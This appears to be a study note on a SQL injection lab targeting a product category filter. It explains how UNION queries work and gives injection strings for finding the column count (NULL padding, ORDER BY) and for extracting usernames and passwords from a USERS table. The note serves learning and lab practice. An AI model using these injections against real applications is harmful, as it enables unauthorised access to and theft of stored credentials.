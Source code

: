 # SQL injection - Product category filter

## end goal: determine the number of column return by the query

## background knowledge(UNION in SQL)

```SQL
table1   |    table2
 a | b   |    c | d
--------------------
  1,2    |     3,4
  2,3    |     4,5
--------------------
Query #1: SELECT a, b FROM table1
result#1: 1, 2
          2, 3

Query #2: SELECT a, b FROM table1 UNION SELECT c, d FROM table2;
result #2: 1, 2
           3, 4
           2, 3
           4, 5
```

Rules using UNION operator:

- The number and the order of the columns must be the same in all queries
- The data types must be compatible

## let's say that we have sql vunerability in table1. And we want to extract data from other tables such like USERS

the SQL injection will be look's like:
`SELECT a, b FROM table1 UNION SELECT username, password FROM USERS;`

## SQL injection attack with UNION

### way #1

`SELECT ? FROM table1 UNION SELECT null;`
if we got an error then we use incorrect number of columns so we add them until we see the 200 response code
`SELECT ? FROM table1 UNION select NULL, NULL[and more and more NULL];`

### way #2

`SELECT a, b FROM table1 ORDER BY 1[2,3...]`
allow us iteratively ingress number and find the number-of-columns easy
